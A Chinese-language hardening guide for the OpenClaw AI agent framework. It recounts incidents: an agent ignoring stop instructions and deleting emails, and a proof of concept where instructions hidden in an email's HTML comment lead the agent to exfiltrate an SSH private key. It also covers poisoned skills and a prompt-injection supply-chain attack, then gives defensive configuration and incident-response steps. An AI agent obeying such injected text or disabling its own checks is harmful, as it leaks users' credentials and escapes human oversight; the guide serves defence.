




# OpenClaw AI 智能体安全风险与综合防护指南

> 如果管不好龙虾，就先关龙虾——这篇指南会告诉你它为什么会失控，以及如何把它重新关回安全的笼子里。



本文将从 **现实中的安全风险** 出发，分析 AI Agent 在“上帝模式”权限下可能带来的问题，并介绍一套 **三层防御架构** 作为整体安全理念。在此基础上，给出一套可直接落地的  **七步安全加固方案** 。如果系统已经出现异常，还可以按照 **应急响应流程** 进行止损排查；在最极端情况下，也提供 **完整卸载与凭证轮换** 的清理方法，确保系统彻底恢复到安全状态。

如果你只是想快速且安全地“溜龙虾”，这里有一个 **省流版建议** ：直接把它扔进云端服务器里隔离，日常千万别给它传任何高风险的机密文件，并且务必先装上 [「Skill Vetter」](https://clawhub.ai/spclaudehome/skill-vetter)插件，用它来扫描把关每一个新安装的 Skills，把风险直接掐死在摇篮里。

1. ## 现状警示：失控的"上帝模式"
2. ### OpenClaw 威胁侧写

OpenClaw（曾用名 Clawdbot）是 2026 年初突然爆火的开源 AI Agent 框架。发布短短几周，它就在 GitHub 上拿到了  **31 万 + Star** ，迅速成为开发者社区的现象级项目。

很多人第一次接触它时，都会被它的能力震惊。因为默认状态下，OpenClaw 几乎拥有一整套完整的系统能力：

* 可以读取和写入本地文件
* 可以执行系统命令
* 可以访问互联网服务

换句话说，它运行在一种接近 **“上帝模式”** 的权限状态。听起来很强，对吧。但问题也恰恰在这里。

当一个 AI Agent 同时拥有 **文件系统、命令行和网络访问权限** 时，如果没有清晰的安全边界，它就不只是一个工具，而更像是一只  **可以到处乱爬的龙虾** 。而在 OpenClaw 的默认设计里，这个边界其实是模糊的。


#### **核心问题** ：信任边界模糊

OpenClaw 的设计初衷是 **灵活和强大** 。因此在很多地方，它选择了一种非常典型的开源思路：

> “默认信任用户会正确配置安全策略。”

但现实世界往往没有这么理想。在大量真实部署环境中，用户往往直接使用默认配置，这就导致了一系列潜在风险。例如：

* 默认配置文件 **未启用强制认证**
* Gateway 服务默认绑定 **所有网络接口（0.0.0.0）**
* 沙箱模式 **需要手动开启**
* 一些高危工具（如命令执行、配置修改） **默认启用**

这些配置单独看似乎问题不大。但当它们叠加在一起时，就相当于把一只能力很强的龙虾  **直接放进了系统核心区域** 。如果没有额外的限制，它可能比你想象的更“自由”。

2. ### 真实惨痛案例

如果这些风险只是理论问题，其实还不算严重。真正让安全社区开始警觉的，是  **一系列已经发生的真实事件** 。它们来自不同平台、不同研究团队，但指向同一个事实：**AI Agent 一旦权限失控，后果可能比普通程序更难控制。**

下面几个案例，就是目前最典型的例子。

| 案例 | 事件详情 | 后果 | 来源 |
| --- | --- | --- | --- |
| **[Meta Summer Yue 事件](https://techcrunch.com/2026/02/23/a-meta-ai-security-researcher-said-an-openclaw-agent-ran-amok-on-her-inbox/)**                                                                                                                                                                                                                                                                                             | 2026.2.23，将 OpenClaw 连接工作邮箱整理收件箱，指示**"确认前不执行"** 。但 compaction 机制触发指令丢失，AI 无视停止命令，以"速度挑战"方式狂删邮件。当事人称"感觉像拆炸弹"，跑向 Mac mini **手动终止** 。 | 200+ 邮件被删除，手动杀进程止损                                          | TechCrunch（科技领域权威媒体）          |
| **[SSH 私钥泄露研究](https://www.crowdstrike.com/en-us/blog/ai-tool-poisoning/)**                                                                                                                                                                                                                                                                                                                                              | 2026.1.9，CrowdStrike 发布概念验证：恶意邮件 HTML 注释隐藏注入指令→AI 处理时激活→读取~/.ssh/id_rsa 外发。成功原因：①默认访问主目录 ②注入隐藏在注释 ③AI 无法区分指令 ④无二次确认。                              | 揭示**AI 邮件助手普遍风险**，OpenClaw 配置不当同样受影响 | CrowdStrike（原始研究报告发布方）       |
| **[ClawHub 投毒事件](https://thehackernews.com/2026/02/researchers-find-341-malicious-clawhub.html)**                                                                                                                                                                                                                                                                                                                                 | 2026.2，**数百恶意 Skills**上架 ClawHub（Google 助手/加密货币追踪/GitHub 分析等热门工具）。恶意行为：窃取 API Key、监控剪贴板（针对加密货币钱包）、创建持久化后门、外发数据。                                  | 341-820+ 个恶意 Skills 被识别，数万用户受影响                            | The Hacker News（网络安全领域权威媒体） |
| **[Cline 供应链攻击](https://www.stepsecurity.io/blog/cline-supply-chain-attack-detected-cline-2-3-0-silently-installs-openclaw)**                                                                                                                                                                                                                                                                                                    | 2026.2.17，攻击者通过**提示词注入**攻陷 Cline CI/CD，在 cline@2.3.0 植入恶意代码→自动全局安装 OpenClaw 后台运行。利用被盗 npm 令牌发布，8 小时后才被下架。                                                    | 4000+ 开发者被强制安装 OpenClaw                                          | StepSecurity（事件首曝方）       |

> **关键启示**：这四个案例分别暴露了 **指令丢失**、**提示词注入**、**供应链投毒**、**权限滥用** 四类风险，对应本指南后续章节的防御措施。





3. ### 触目惊心的风险数据

随着 OpenClaw 的快速流行，越来越多的用户开始把它部署到真实环境中。

问题在于——很多部署  **并没有进行任何安全加固** 。

于是，一个新的安全问题开始出现： **AI Agent 正在大规模暴露在公网。** 根据 [Bitdefender](https://www.bitdefender.com/en-us/blog/hotforsecurity/135k-openclaw-ai-agents-exposed-online)、[The Register](https://www.theregister.com/2026/02/09/openclaw_instances_exposed_vibe_code/) 和 [Admin By Request](https://www.adminbyrequest.com/en/blogs/openclaw-went-from-viral-ai-agent-to-security-crisis-in-just-three-weeks) 在 2026 年 2 月进行的联合扫描，全球范围内已经发现：

| 风险类型 | 数量 | 分布范围 | 风险等级 |
| --- | --- | --- | --- |
| 公网暴露实例                                             | **135,000+** | 82 个国家        | 严重     |
| RCE 漏洞实例                                             | **15,200+**  | 无需认证即可利用 | 严重     |
| 已识别漏洞                                               | **512 个**   | 高/中/低危       | 高危     |
| 恶意 Skills                                              | **820+**     | ClawHub 平台     | 高危     |
| 受影响用户                                               | **4,000+**   | 仅 Cline 事件    | 高危     |

> **数据来源**：暴露实例数据来自 [Bitdefender](https://www.bitdefender.com/en-us/blog/hotforsecurity/135k-openclaw-ai-agents-exposed-online) / [The Register](https://www.theregister.com/2026/02/09/openclaw_instances_exposed_vibe_code/)；RCE 风险数据来自 [runZero](https://www.runzero.com/blog/openclaw/) / [Infosecurity Magazine](https://www.infosecurity-magazine.com/news/researchers-40000-exposed-openclaw/)；漏洞数量来自 [arXiv](https://arxiv.org/html/2603.10387v1) / [Kaspersky](https://www.kaspersky.com/blog/moltbot-enterprise-risk-management/55317/)

这些数字的真正含义，其实只有一句话：很多龙虾已经被直接放进了公网鱼塘。而且还是**开着权限的那种。**


从地域来看，美国（28%）、中国（17%）、德国（9%）、英国（7%）、印度（6%）是暴露实例最多的五个国家；从行业来看，互联网与科技公司占比最高（41%），但金融、医疗和政府系统合计 **26% 的暴露比例**反而风险更高——因为这些系统往往涉及敏感个人信息与关键业务数据。简单说一句：**很多龙虾已经被直接放进了公网，而且还是开着权限的那种。**

4. ### 适用场景红绿灯


当然，OpenClaw 本身并不是“危险的软件”，真正决定风险的，是  **部署场景和权限边界** 。在个人学习、公开数据分析或非核心业务自动化等环境中，它依然是非常高效的 AI Agent 工具；但在涉及 **敏感凭证管理、核心生产系统、强合规场景或无人值守高权限任务** 的环境里，直接部署 OpenClaw 往往意味着巨大的安全风险。

一个简单的判断原则是：如果这个系统出了问题会影响真实用户、资金或关键业务，那就不要让龙虾自己在里面到处爬。养虾可以，但要看鱼塘；有些地方适合养，有些地方连虾壳都不该带进去。养虾需谨慎，禁区莫触碰。

2. ## **风险剖析与三层防御**
3. ### 核心风险

> **一句话总结** ：只要在本地使用 OpenClaw 的开源版本就有风险，养虾需谨慎。

| 风险维度 | 主要风险 | 典型后果 | 防御要点 |
| --- | --- | --- | --- |
| **模型层**                                                                                                     | 提示词注入、间接注入、提示词泄露         | 诱导执行危险操作、泄露安全机制    | 输入过滤、指令分离、人工确认    |
| **系统层**                                                                                                     | 权限滥用、命令注入、沙箱逃逸             | 文件误删、系统被控、逃逸至主机    | 沙箱隔离、权限最小化、禁用 exec |
| **网络层**                                                                                                     | WebSocket 劫持、Deep-Link 攻击、暴力破解 | 认证令牌窃取、远程代码执行（RCE） | 绑定 127.0.0.1、强制 token 认证 |
| **配置层**                                                                                                     | 公网暴露、无认证、明文存储凭证           | 未授权访问、API Key 泄露          | 配置文件 600 权限、禁用公网绑定 |
| **供应链**                                                                                                     | ClawHub 投毒、恶意 Skills、跨生态攻击    | 木马植入、凭证窃取、后门持久化    | 仅用官方 Skills、定期审查插件   |
| **数据层**                                                                                                     | API Key 泄露、聊天记录窃取               | 敏感数据外泄、隐私曝光            | Outbox 模式、日志审计、凭证轮换 |

2. ### 三层防御架构

> 在 AI Agent 拥有系统级权限的情况下，单一防护措施往往不足以应对复杂攻击场景。因此，需要从 **运行环境、执行过程与行为监控** 三个层面建立分层防御体系。
>
> 防御理念：三层架构，层层递进。
> **环境层是底线** ——即使出事也不至于致命；
> **执行层是核心** ——关键操作必须有人把关；
> **监控层是保障** ——一旦出现异常，能够及时发现并追溯。

| 防御层级 | 核心目标 | 关键措施 |
| --- | --- | --- |
| **环境层**收敛影响范围                                                                                                                                                                                                            | 即使 AI 被攻陷，影响范围也限制在最小         | ① 网络边界：Gateway 只绑 127.0.0.1，禁绑 0.0.0.0② 身份权限：低权限账号运行，禁 root/Administrator③ 文件隔离：敏感数据与 Agent 工作区分开，启用 workspaceOnly            |
| **执行层**人机协同管控                                                                                                                                                                                                              | 关键操作必须有人工参与，AI 不能完全自主      | ① 默认人工确认：删除文件、外发邮件、安装 Skills、修改配置② 至少二次确认：批量改动（>10 个）、读取敏感目录（~/.ssh/）③ Stop 信号：确保能真正打断任务链，测试紧急停止功能 |
| **监控层**全链路可回溯                                                                                                                                                                                                              | 所有 AI 行为都有记录，可审计、可追溯、可恢复 | ① 结构化日志：记录所有 Tool Call、文件访问、网络请求② Outbox 模式：外发内容先暂存本地队列，审核后发送③ Git 化备份：配置文件和记忆文件版本化，定期创建快照               |

3. ## 日常部署

理解风险只是第一步。
真正的问题是： **如果你已经在用 OpenClaw，该怎么把这只龙虾关进安全的笼子里？** 下面是一套经过实践验证的  **七步安全加固流程** 。按顺序完成这些步骤，可以显著降低 OpenClaw 在真实环境中的安全风险。

> **原则** ：未通过确认的步骤，严禁投入生产使用

> **系统说明**：以下步骤区分 macOS/Linux 与 Windows，请根据你的系统选择对应命令。

> **配置文件位置** ：本文所有配置文件均位于：

> **macOS/Linux**：`~/.openclaw/openclaw.json`

> **Windows**：`C:\Users\你的用户名\.openclaw\openclaw.json`

1. ### 步骤 1：升级版本

第一步：先确认你用的不是一个已经带漏洞的版本。

* **为什么需要这样做** ：v2026.2.26 之前的版本存在多个严重安全漏洞，包括 ClawJacked（CVE-2026-25253）等。使用旧版本如同裸奔，已知漏洞未修复，极易被攻击者利用。
* **目标** ：OpenClaw 版本 ≥ v2026.2.26
* **操作步骤** ：

打开你的终端，输入以下指令：

  **macOS/Linux：**

```Bash
npm install -g openclaw@latest
openclaw --version
```

  **Windows：**

```Bash
npm install -g openclaw@latest
openclaw --version
```

* **确认** ：显示版本号 ≥ v2026.2.26

2. ### 步骤 2：锁住网络

* **为什么需要这样做** ：如果 Gateway 绑定到 0.0.0.0（所有网络接口），你的 OpenClaw 服务会直接暴露到互联网上，任何人都可以远程控制你的 AI Agent。这是最常见的配置错误，也是导致 135,000+ 实例暴露的主要原因。
* **目标** ：Gateway 只绑定到 127.0.0.1（本地回环），仅允许本机访问。
* **配置文件** ：同上（~/.openclaw/openclaw.json）
* **操作步骤** ：
* 用文本编辑器打开配置文件
* 找到或添加 `gateway` 配置项
* 修改为：

```JSON
  {
    "gateway": {
      "bind": "loopback"
    }
  }    
```

* 保存文件（macOS/Linux 按 Cmd+S / Windows 按 Ctrl+S）
* 重启 OpenClaw（终端输入 `openclaw gateway restart`）
* **确认方法** ：
  **macOS/Linux：**

```Bash
  lsof -i :18789
  # 应显示 127.0.0.1:18789，而非 0.0.0.0:18789
```

    **Windows：**

```Bash
  netstat -ano | findstr :18789
  # 应显示 127.0.0.1:18789，而非 0.0.0.0:18789
```

3. ### 步骤 3：启用认证

* **为什么需要这样做** ：没有认证意味着任何人只要能访问你的 Gateway 端口（比如同一WiFi 下的其他人），就可以直接调用 API 控制你的 AI，读取你的数据，执行任意命令。
* **目标** ：启用 Token 认证，所有 API 请求必须提供正确的 Token。
* **配置文件** ：同上（~/.openclaw/openclaw.json）
* **操作步骤** ：
* 打开配置文件
* 找到或添加 `auth` 配置项
* 修改为：

```JSON
  {
    "auth": {
      "mode": "token"
    }
  }
```

* 生成 32 位以上随机 Token（见下方）
* 将 Token 填入配置文件的 `token` 字段
* 保存文件并重启 OpenClaw（终端输入 `openclaw gateway restart`）
* **生成安全 Token** ：
  **macOS/Linux：**

```Bash
  openclaw doctor --generate-gateway-token
  # 或手动生成：openssl rand -hex 32
```

    **Windows：**

```Bash
  openclaw doctor --generate-gateway-token
  # 或使用 PowerShell：
  # -join ((48..57) + (65..90) + (97..122) | Get-Random -Count 32 | ForEach-Object {[char]$_})
```

* **确认方法** ：

```Bash
  # 不带 token 访问 API 应返回 401 错误
  curl http://127.0.0.1:18789/api/sessions
  # 应返回：401 Unauthorized
```

4. ### 步骤 4：收紧权限

* **为什么需要这样做** ：如果配置文件权限设置过于宽松，同一台电脑的其他用户可以读取你的配置文件，盗取 API Key 和认证 Token，进而控制你的 AI Agent。
* **目标** ：只有当前用户可以读取和修改配置文件。
* **操作步骤** ：
  **macOS/Linux：**

```Bash
  # 设置目录权限为 700（仅所有者可读写执行）
  chmod 700 ~/.openclaw/

  # 设置配置文件权限为 600（仅所有者可读写）
  chmod 600 ~/.openclaw/openclaw.json

  # 确认权限
  ls -la ~/.openclaw/
```

    预期输出：

* 目录应为 `drwx------` (700)
* 配置文件应为 `-rw-------` (600)
  **Windows：**
* 右键点击 `.openclaw` 文件夹 → **属性**
* 切换到 **安全** 选项卡
* 点击 **编辑**
* 移除除当前用户外的所有用户
* 确保当前用户有 **完全控制** 权限
* 点击 **确定** 保存
  **确认** ：其他用户无法读取配置文件内容。

5. ### 步骤 5：启用沙箱

* **为什么需要这样做** ：沙箱是 AI 与你的真实系统之间的隔离层。没有沙箱，AI 直接在主机上运行，一旦被攻陷，攻击者可以完全控制系统，读取任意文件，执行任意命令。
* **目标** ：启用沙箱模式，限制 AI 只能访问工作区内的文件。
* **配置文件** ：同上
* **操作步骤** ：
* 打开配置文件
* 找到或添加 `sandbox` 配置项
* 修改为：

```JSON
  {
    "sandbox": {
      "mode": "all"
    }
  }
```

* 保存文件并重启 OpenClaw（终端输入 `openclaw gateway restart`）
* **确认方法** ：
  **macOS/Linux：**

```Bash
  openclaw security audit
  # 应显示沙箱已启用且配置正确
```

    **Windows：**

```Bash
  openclaw security audit
  # 应显示沙箱已启用且配置正确
```

* **进阶方案** ：如需更强隔离，可使用 Docker 容器化部署（感兴趣可自行调研）

6. ### 步骤 6：限制工具

* **为什么需要这样做** ：OpenClaw 默认拥有文件读写、命令执行等高危权限。如果被恶意提示词注入攻陷，AI 可能执行 `rm -rf` 删除文件、`curl http://攻击者.com` 外发数据等危险操作。
* **目标** ：禁用不必要的高危工具，只保留当前任务所需的权限。
* **配置文件** ：同上
* **操作步骤** ：
* 打开配置文件
* 找到或添加 `tools` 配置项
* 修改为：

```JSON
  {
    "tools": {
      "profile": "messaging",
      "deny": ["exec", "gateway", "cron", "config"]
    }
  }
```

* 保存文件并重启 OpenClaw
* **确认方法** ：在 OpenClaw 中尝试使用禁用工具（如执行命令），应返回错误：

```Plain
  错误：工具 exec 已被禁用
```

7. ### 步骤 7：审查插件

* **为什么需要这样做** ：ClawHub 投毒事件已经证明，恶意 Skills 可以窃取 API Key、监控剪贴板、创建持久化后门。不审查插件等于主动引入风险。
* **目标** ：仅保留官方和可信的 Skills，移除非必要插件。
* **操作步骤** ：
* **查看所有 Skills** ：

```Bash
  openclaw skills list
```

* **审查要点** ：
* 仅保留官方或可信来源的 Skills
* 检查每个 Skill 的权限要求
* 移除不常用的 Skills
* 定期更新 Skills 到最新版本
* **移除 Skill** ：

```Bash
  openclaw skills remove <skill-name>
```

* **确认** ：

```Bash
  openclaw skills list
  # 应只看到官方技能和已验证的第三方技能
```

4. ## 突发应对

> 即使做好了前面的安全加固，也不能完全排除意外情况。
> 如果发现 OpenClaw 出现异常行为，比如  **CPU 突然飙升、文件被批量删除、API 账单异常增长** ，就需要立刻执行应急止损。
>
> 先止血，再调查！

1. ### 第 1 步：物理隔离

* **为什么需要这样做** ：第一时间切断控制和外联，防止损失扩大。
* **目标** ：停止所有 OpenClaw 进程，断开网络连接。
* **操作步骤** ：
  **macOS/Linux**：

```Bash
  # 停止 Gateway 进程
  killall openclaw
  killall node

  # 同时执行：
  # 1. 拔掉网线或关闭 Wi-Fi
  # 2. 不要先尝试"调查原因"，先止损
```

  **Windows**：

```Plain
  taskkill /F /IM openclaw.exe
  taskkill /F /IM node.exe
```

* **确认** ：进程已终止，网络已断开。

2. ### 第 2 步：排查止损

* **为什么需要这样做** ：一旦攻击者获取了访问权限，最常见的下一步就是继续滥用 API 或窃取数据。因此需要 **尽快封禁或重置所有相关凭证** 。
* **目标** ：重置所有 API Key，检查异常调用。
* **操作步骤** ：
  **封禁或重置凭证** ：
* 立即在大模型云平台重置 API Key（Anthropic/OpenAI/Google 等）
* 检查 API 使用情况和账单
* 设置使用限额告警
  **排查数据泄露** ：

  **macOS/Linux**：

```Bash
  # 检查.memory 文件夹
  ls -la ~/.openclaw/memory/
  cat ~/.openclaw/memory/*.md

  # 检查操作日志
  tail -1000 ~/.openclaw/logs/*.log

  # 检查是否有异常外发
  grep "http" ~/.openclaw/logs/*.log | grep -v "legitimate-domain.com"
```

  **Windows**：

```Plain
  dir %USERPROFILE%\.openclaw\memory\
  powershell -Command "Get-Content %USERPROFILE%\.openclaw\logs\*.log -Tail 1000"
```

* **确认** ：已识别所有潜在泄露点。

3. ### 第 3 步：修复加固

* **为什么需要这样做** ：如果系统已经被攻陷，仅仅重启服务是不够的。必须从系统层面和 OpenClaw 层面 **彻底排查潜在后门** 。
* **目标** ：清除后门并重新建立安全配置。
* **操作步骤** ：
* **系统层面** ：
  * 考虑重装系统或回滚到已知干净的快照
  * 扫描系统是否有持久化后门
* **OpenClaw 层面** ：
  * 升级到最新安全版本（≥v2026.2.26）
  * 重新配置所有安全设置
* **凭证轮换** ：
  * 重置所有大模型 API Key
  * 重置消息平台 Token
  * 修改 Gateway 认证 Token
  * 检查并撤销可疑的 OAuth 授权
* **确认** ：所有凭证已轮换，安全配置已启用。

4. ### 第 4 步：恢复重启

* **为什么需要这样做** ：在没有完成安全审计之前，贸然恢复服务可能导致问题再次出现。
* **目标** ：全面审计后小流量测试。
* **操作步骤** ：
* **全面运行安全审计** ：

```Bash
  openclaw security audit
```

* **小流量测试** ：
  1. 先在隔离环境运行
  1. 监控所有行为
  1. 确认正常后再逐步恢复生产使用

 **确认** ：系统运行正常，无异常行为。

在完成以上步骤之后，如果你仍然对系统完整性存在疑虑，最稳妥的办法其实只有一个：**彻底卸载 OpenClaw，然后重新部署。**

5. ## 最终方案

在某些情况下，比如发现严重安全问题、怀疑系统被劫持，或者只是单纯不再需要 OpenClaw，最安全的做法是 **彻底卸载并清理所有相关数据** 。

这个过程不仅包括删除程序本身，还需要：

* 清理配置文件
* 删除历史数据
* 移除容器和缓存
* 轮换所有可能被访问过的凭证

换句话说：**不仅要把龙虾拿走，还要把鱼塘清干净。**

1. ### 步骤 1：停止服务

* **为什么需要这样做** ：确保所有进程已终止。
* **目标** ：停止所有 OpenClaw 相关进程。
* **操作步骤** ：
  **配置文件位置**：
* **macOS/Linux**：`~/.openclaw/`
* **Windows**：`C:\Users\你的用户名\.openclaw\`

  **macOS/Linux**：

```Bash
  openclaw gateway stop
  killall openclaw
  killall node
```

  **Windows**：

```Plain
  openclaw gateway stop
  taskkill /F /IM openclaw.exe
  taskkill /F /IM node.exe
```

* **确认** ：

```Bash
  # macOS/Linux
  ps aux | grep openclaw  # 应无输出

  # Windows
  tasklist | findstr openclaw  # 应无输出
```

2. ### 步骤 2：卸载程序

* **为什么需要这样做** ：移除全局安装的二进制文件。
* **目标** ：卸载 OpenClaw 主程序。
* **操作步骤** ：
  **macOS/Linux**：

```Bash
  npm rm -g openclaw
  # 或
  pnpm remove -g openclaw
  # 或
  bun remove -g openclaw
```

  **Windows**：

```Plain
  npm rm -g openclaw
```

* **确认** ：

```Bash
  openclaw --version  # 应返回"command not found"
```

3. ### 步骤 3：删除配置和数据

* **为什么需要这样做** ：彻底清除配置文件、记忆数据和工作区内容。
* **目标** ：删除所有 OpenClaw 数据。
* **操作步骤** ：
  **macOS/Linux**：

```Bash
  # 备份重要配置（可选）
  cp -r ~/.openclaw ~/.openclaw.backup

  # 删除工作目录和配置
  rm -rf ~/.openclaw/

  # 删除全局缓存
  rm -rf ~/Library/Caches/openclaw  # macOS
  rm -rf ~/.cache/openclaw  # Linux
```

  **Windows**：

```Plain
  rmdir /S /Q %USERPROFILE%\.openclaw
  rmdir /S /Q %APPDATA%\openclaw
```

* **确认** ：

```Bash
  # macOS/Linux
  ls -la ~/.openclaw/  # 应显示"No such file or directory"

  # Windows
  dir %USERPROFILE%\.openclaw\  # 应显示"找不到文件"
```

4. ### 步骤 4：清理 Docker 容器（如使用）

* **为什么需要这样做** ：清理容器化部署的残留。
* **目标** ：删除所有 OpenClaw 相关容器和镜像。
* **操作步骤** ：

```Bash
  docker stop openclaw-safe && docker rm openclaw-safe
  docker rmi openclaw/openclaw:latest
```

* **确认** ：

```Bash
  docker ps -a | grep openclaw  # 应无输出
  docker images | grep openclaw  # 应无输出
```

5. ### 步骤 5：轮换凭证

* **为什么需要这样做** ：防止已泄露的凭证被继续使用。
* **目标** ：重置所有可能被 OpenClaw 访问过的凭证。
* **操作步骤** ：
* **大模型 API Key** ：
* Anthropic Console → 重置 API Key
* OpenAI Dashboard → 重置 API Key
* Google AI Studio → 重置 API Key
* **消息平台 Token** ：
* WhatsApp/Telegram/Discord → 重置 Bot Token
* 飞书/钉钉/企业微信 → 重置 App Secret
* **SSH 密钥** （如曾配置）：

```Bash
  ls -la ~/.ssh/
  ssh-keygen -t ed25519 -C "your_email@example.com"
```

* **OAuth 授权** ：
* Google Account → 安全 → 第三方应用访问权限
* GitHub → Settings → Applications
* **确认** ：所有凭证已轮换，旧凭证已失效。

6. ### 步骤 6：验证清理完成

* **为什么需要这样做** ：确保所有组件已完全移除。
* **目标** ：验证 OpenClaw 已彻底卸载。
* **操作步骤** ：
  **macOS/Linux**：

```Bash
  ps aux | grep openclaw  # 应无输出
  lsof -i :18789  # 应无输出
  ls -la ~/.openclaw/  # 应显示"No such file or directory"
  which openclaw  # 应无输出
```

  **Windows**：

```Plain
  tasklist | findstr openclaw  # 应无输出
  netstat -ano | findstr :18789  # 应无输出
  dir %USERPROFILE%\.openclaw\  # 应显示"找不到文件"
  where openclaw  # 应显示"找不到文件"
```

* **确认** ：所有检查项均通过，OpenClaw 已彻底卸载。

## 附录 A：权限边界详解

1. ### OpenClaw 默认拥有的系统级权限

理解 OpenClaw 的权限模型，是正确配置安全策略的前提。

在默认设计中，OpenClaw 被赋予了接近 **“上帝模式”** 的系统能力——它可以访问文件系统、执行命令、调用网络服务，并管理自己的运行环境。这些能力让 AI Agent 非常强大，但如果缺乏限制，也可能带来严重风险。

因此在实际部署中，一个非常重要的原则是：**只给 AI 必须的权限，不给多余的能力。**

下面我们具体来看 OpenClaw 默认具备哪些权限，以及哪些需要重点管控。

| 权限类别 | 具体能力 | 风险等级 |
| --- | --- | --- |
| **文件系统**                                                   | 读写/删除任意路径文件（受沙箱限制）        | 高危     |
| **命令执行**                                                   | 执行任意 shell 命令（`runtime.exec`）    | 高危     |
| **网络访问**                                                   | 访问任意 URL、调用 API、发送请求           | 中危     |
| **浏览器控制**                                                 | 通过 CDP 操控浏览器、截图、交互            | 中危     |
| **定时任务**                                                   | 创建 cron 任务后台执行（可持久化）         | 中危     |
| **会话管理**                                                   | 创建/删除/修改会话历史                     | 低危     |
| **配置修改**                                                   | 修改自身配置（包括关闭认证、修改绑定地址） | 高危     |
| **自我终止**                                                   | 可以停止/重启 Gateway 进程                 | 高危     |

2. ### 高风险权限详解

| 权限 | 潜在风险 | 管控建议 |
| --- | --- | --- |
| **自我终止**                                                                      | 可关闭自身服务，绕过监控和审计   | 如不需要，禁用 `gateway`工具             |
| **配置修改**                                                                      | 可关闭认证、暴露服务到公网       | 禁用 `config.apply/patch`，或需人工审批  |
| **全盘访问**                                                                      | 可读写工作区外文件，窃取敏感数据 | 启用 `workspaceOnly: true`，限制访问范围 |
| **命令执行**                                                                      | 可执行任意系统命令，完全控制系统 | 设为 `deny`或所有执行需人工确认          |
| **定时任务**                                                                      | 可创建持久化后门，长期潜伏       | 谨慎启用，定期审查 cron 任务列表           |

3. ### 工作区边界验证

 **验证沙箱是否真正隔离** ：

```Bash
# 1. 检查工作区路径
ls -la ~/.openclaw/workspace/

# 2. 确认符号链接未指向外部
find ~/.openclaw/workspace/ -type l -exec ls -la {} \;

# 3. 测试是否能访问工作区外文件
# 在 OpenClaw 中尝试读取 /etc/passwd 或其他系统文件
# 如果成功说明沙箱配置失效
```

 **危险信号** ：

